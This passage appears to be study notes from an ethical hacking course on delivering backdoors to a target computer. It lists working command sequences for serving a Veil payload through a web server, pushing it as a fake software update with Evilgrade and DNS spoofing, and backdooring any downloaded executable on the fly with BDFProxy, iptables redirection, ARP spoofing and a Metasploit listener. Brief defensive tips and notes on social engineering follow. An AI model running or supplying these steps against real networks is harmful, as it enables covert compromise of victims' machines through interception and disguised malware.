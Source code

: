 ### Deliver the backdoor

* Basic method: put the backdoor on a server and download it in the target computer (not effective, only for test)
        * Put file from /var/lib/veil/output/compiled in /var/www/html/custom_folder
        * Start service with service apache2 start
* Using a fake update - Require DNS spoofing + Evilgrade (a server to serve the update)

                //Download and install Evilgrade to have a server for the backdoor
                ./evilgrade => start Evilgrade
                show modules
                configure dap => Download Accelerator Plus
                set agent /var/www/html/payload.exe => set backdoor location
                set endsite www.speedbit.com
                start => start server

                //Start dns spoofing
                Use bettercap method for ease of use
                
                //Start handler
                See above

* Backdooring downloads on the fly via BDFPROXY- backdoor any exe that the target downloads

                //Download, configure and start bdfproxy
                Install bdfproxy
                leafpad /etc/bdfproxy/bdfproxy.cfg
                => set IP address and proxyMode to transparent
                bdfproxy => start program
                
                //Rediret traffic to bdfproxy
                iptables -t nat -A PREROUTING -p tcp --destination-port 80 REDIRECT --to-port 8080

                //Start arp spoofing
                mitmf --arp --spoof-i <interface> --gateway <gateway IP> --targets <target IP>
                or bettercap

                //Start listening for connections
                msfconsole -r /usr/share/bdfproxy/bdf_proxy_msf_resource.rc

                // When done reset ip table rules

### Protect yourself

* Ensure you're not being MITM'ed => trusted networks only, use xarp
* Only download from HTTPS
* Check file MD5 after download => www.winmd5.com

## Client side attacks - Social Engineering

* Main problem with server side attacks => we need to be the man in the middle
* Client side attacks start with gathering infos about the user and then build a strategy and a backdoor based on the info
* The strategy can be to impersonate a friend and send a request via mail or other means to open a file
